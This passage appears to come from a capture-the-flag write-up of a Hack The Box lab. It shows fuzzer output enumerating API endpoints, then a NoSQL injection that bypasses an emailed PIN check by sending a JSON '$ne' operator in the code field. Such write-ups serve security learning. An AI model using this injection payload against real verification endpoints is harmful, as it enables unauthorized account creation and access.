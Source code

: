     200     POST        1l        4w       36c http://internal-api.graph.htb/api/register
    200     POST        1l        4w       40c http://internal-api.graph.htb/api/code
    200     POST        1l        4w       40c http://internal-api.graph.htb/api/Code
    200     POST        1l        2w       26c http://internal-api.graph.htb/api/verify
    200     POST        1l        4w       36c http://internal-api.graph.htb/api/Register
    [####################] - 1m     60000/60000   0s      found:5       errors:0
    [####################] - 1m     60000/60000   530/s   http://internal-api.graph.htb/api 
    

I do make sure to give it `-m GET,POST` to check both since it’s an API. I
could also try other methods, but these are a good start. It’s worth noting
that the API appears to be case-insensitive.

## Admin Portal Access

### Management Portal

#### Register Account

If I want to register an account, I’ll have to bypass the pin which was
“emailed to me”. I already found that I can’t brute force the pin. I’ll look
back at the request where I submit the pin for validation:

    
    
    POST /api/verify HTTP/1.1
    Host: internal-api.graph.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
    Accept: application/json, text/plain, */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    Content-Length: 40
    Origin: http://internal.graph.htb
    Connection: close
    Referer: http://internal.graph.htb/
    
    {"email":"0xdf@graph.htb","code":"1237"}
    

I still don’t know what is running on the server, but it’s worth checking for
various kinds of injection. SQL injection doesn’t do much, but given the use
of JSON structures, NoSQL might make sense.

To test, I’ll request a pin, and then send a random pin with Burp intercept
enabled. I’ll modify the request to:

    
    
    {"email":"0xdf@graph.htb","code":{"$ne":"00000"}}
    

This is tricking the system into checking if the code is not “00000”, which is
true, so the resulting page is:

![image-20220727120630283](https://0xdfimages.gitlab.io/img/image-20220727120630283.png)
